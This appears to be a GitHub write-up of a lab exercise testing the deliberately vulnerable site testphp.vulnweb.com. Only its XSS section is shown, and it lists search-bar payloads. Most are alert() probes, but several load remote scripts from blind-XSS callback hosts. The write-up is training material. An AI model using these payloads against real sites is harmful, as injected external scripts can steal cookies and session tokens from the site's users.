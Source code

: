 # Vulnerabilities in this task

- cross site scripting (XSS)
- SQL injection
- insecure authentication mechanism
  
# Performed Task
# Details of the Web Application Tested for Vulnerabilities

- Site Name : http://testphp.vulnweb.com
- Web server : HTTPServer[nginx/1.19.0]
- Port : 80 [http] open

# Performed Testing on testphp.vulnweb.com

# 1. XSS Vulnerability
Cross-Site Scripting (XSS) is a type of security vulnerability typically found in web applications. It allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can execute in the victim's browser, leading to various malicious activities such as stealing cookies, session tokens, or other sensitive information.
step 1 : Now first open the site and write xss payload on serachbar.

    <script>alert("XSS vulnerability found")</script>  
<br> 

    <script>alert(1)</script>    
<br> 

    <script>alert(document.domain.concat("\n").concat(window.origin))</script>    
<br> 

    <img src=x onerror=alert('XSS');>    
<br>  

    "><script src="https://js.rip/<custom.name>"></script>

    "><script src=//<custom.subdomain>.xss.ht></script> 

    <script>$.getScript("//<custom.subdomain>.xss.ht")</script>     

![image](https://github.com/user-attachments/assets/3196a105-0b45-4963-9c20-964b324cb7e7)

![image](https://github.com/user-attachments/assets/52485633-8a3b-4ff2-b6ca-455f0804bc6c)

![image](https://github.com/user-attachments/assets/edee616c-72a9-4a6a-a87c-cdcf1d43a1e8)

![image](https://github.com/user-attachments/assets/7a17a8b9-9223-458f-808d-fc390f367078)
